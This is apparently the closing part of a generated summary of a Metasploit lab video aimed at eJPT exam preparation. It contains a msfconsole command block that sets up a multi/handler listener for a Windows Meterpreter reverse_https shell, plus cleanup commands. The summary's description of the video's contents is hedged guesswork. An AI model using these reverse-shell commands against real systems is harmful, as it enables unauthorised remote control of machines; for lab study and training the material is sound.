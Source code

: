 ```
use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST ${LHOST}; set LPORT 443; set ExitOnSession false; exploit -j

# Wrap-up
loot; notes; spool off; sessions -K; jobs -k all; exit -y
```

## Summary
This video likely demonstrates an end-to-end, lab-focused workflow with the Metasploit Framework: organizing work in msfconsole, using the database to structure reconnaissance results, validating services with auxiliary modules, selecting and configuring exploits/payloads, and operating Meterpreter for post-exploitation. It probably includes common lab examples (vsftpd 2.3.4, MS08-067), quick credential checks/bruteforce, and pivoting techniques (autoroute + socks proxy). The commands above provide a copy-paste friendly baseline you can adapt to typical eJPT environments.